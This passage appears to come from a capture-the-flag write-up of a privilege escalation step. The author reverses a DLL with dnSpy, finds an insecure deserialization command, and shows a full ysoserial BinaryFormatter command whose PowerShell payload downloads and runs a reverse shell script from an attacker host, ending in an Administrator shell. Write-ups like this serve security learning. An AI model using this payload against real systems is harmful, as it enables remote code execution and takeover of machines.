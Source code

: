 Download those two files. Let’s reverse it 

## Privilege Escalation

Found this in the DLL

![Untitled](images/Untitled%2020.png)

By looking the DLL in DnSPY.  we can see that 

LIST_ORDER - will output order in base64 serialized binary data

UPLOAD_ORDER- will upload your binary serialized data and deserializes it 

Now let’s craft a payload using ysoserial to get a shell back

`.\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "powershell.exe Invoke-Command -Computer dc1 -ScriptBlock {IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/revshell.ps1')}"`

![Untitled](images/Untitled%2021.png)

and paste the command in nc after the banner as `UPLOAD_ORDER;`

![Untitled](images/Untitled%2022.png)

I then got reverse shell as Administrator. Machine Pwned!